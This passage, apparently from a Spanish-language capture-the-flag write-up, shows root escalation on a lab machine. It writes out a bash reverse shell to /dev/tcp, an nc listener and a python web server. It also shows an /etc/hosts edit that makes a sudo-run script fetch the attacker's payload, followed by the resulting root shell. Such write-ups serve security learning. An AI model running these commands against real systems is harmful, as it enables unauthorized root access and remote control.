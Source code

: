 ```shell
nano script.sh

#Dentro del nano
#!/bin/bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

```shell
chmod +x script.sh
```

Abrimos un servidor de `python3` para que `curl` lo pueda coger...

```shell
python3 -m http.server 80
```

Y a la vez estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

Si dentro de la maquina victima hacemos lo siguiente...

```shell
nano /etc/hosts

#Dentro del nano
<IP_ATACANTE>      mywebsite.test
```

Veremos que si podemos guardarlo para que cuando se ejecute el script se este ejecutando en nuestra `IP` de nuestro `hosts` donde tenemos ese `script.sh` malicioso con una `Reverse Shell`...

```shell
sudo /home/bassam/down.sh
```

Info:

```
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    56  100    56    0     0   3111      0 --:--:-- --:--:-- --:--:--  3111

```

Se quedara pensando y si nos vamos a donde teniamos la escucha, veremos que nos hizo una shell con `root` perfectamente...

```
connect to [192.168.5.199] from (UNKNOWN) [192.168.5.200] 54748
root@kira:/home/bassam# whoami
whoami
root
```

Por lo que ya seriamos `root`...

